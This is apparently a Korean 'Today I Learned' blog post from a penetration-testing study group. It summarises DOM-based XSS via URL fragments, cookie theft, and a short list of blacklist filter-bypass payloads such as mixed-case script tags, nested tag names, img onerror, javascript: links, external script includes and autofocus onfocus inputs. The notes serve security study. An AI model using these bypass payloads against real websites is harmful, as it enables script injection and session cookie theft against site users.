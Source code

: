 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily

title: "[TIL] 모의해킹 보고서 작성 팁"
excerpt: "모의해킹 취업반 스터디 7기 11주차"

date: 2024-12-26
last_modified_at: 

tags: [TIL]
---
```


DOM Based XSS:
https://example.com/search=test#abracadabra
\# 이후에는 주소에는 남아있지만 서버에 요청 처리는 되지 않습니다
\#을 이용해 DOM Based XSS를 공격할 수 있다고 합니다.
https://blog.outsider.ne.kr/698

Cookie Steal
www.google.com과 www.naver.com의 쿠키는 다르다.
그 URL에서 XSS 취약점이 존재해야 쿠키값을 가져올 수 있다.

post method로 데이터를 날릴 방법도 있다.
이미지 태그를 이용한 방법 말고도 무슨 방법이 있을까?

---
## 블랙 리스트 기반 필터링 우회

글자 수 제한일 때
`<script src = "외부 js"></script>`로 외부 script를 챙겨올 수 있다

script를 공백으로 바꿀 때
`<ScRiPt></ScRiPt>`: 대소문자를 섞는다
`<scrscriptipt></scrscriptipt>`

script를 xcript로 바꿀 때
`<img src=. onerror="alert(1)">`
event handler 이용: onload, onclick, onmouseover, onfocus
href 이용: <a href="javascript:alert(1)">test</a>

<, >가 치환될 경우
`<script></script>`가 이미 존재하는 경우: 태그 안에 코드 작성

```
<script>
    let data = "___";
</script>
```

input XSS
`<input type="text" autofocus onfocus="___.js">`

XSS bysheet cheat list